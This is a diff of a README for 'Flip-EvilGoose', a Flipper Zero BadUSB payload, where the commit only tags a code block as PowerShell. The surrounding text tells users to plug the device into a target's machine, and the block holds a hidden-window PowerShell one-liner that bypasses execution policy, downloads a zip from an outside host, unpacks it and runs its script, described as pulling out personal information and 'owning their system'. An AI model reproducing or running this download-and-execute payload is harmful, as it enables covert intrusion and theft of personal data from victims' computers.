

Before and after one commit to I-Am-Jakoby/Flipper-Zero-BadUSB, a Markdown page: Payloads/Flip-EvilGoose/ReadMe.md, the part around the change. GitHub-like rendering.

````diff
--- a/Payloads/Flip-EvilGoose/ReadMe.md
+++ b/Payloads/Flip-EvilGoose/ReadMe.md
@@ -41,7 +41,7 @@ Afterwards it will walk around your targets screen pulling out personal informat
 * Plug in your device
 * 10 seconds later your goose is owning their system
 
-```
+```powershell
 powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";iwr -Uri 'https://jakoby.lol/1ae' -O "$D\hg.zip";Expand-Archive "$D\hg.zip" -Des $D -Force;. "$D\hg\main.ps1"
 ```
 ### Exiting the Payload
````
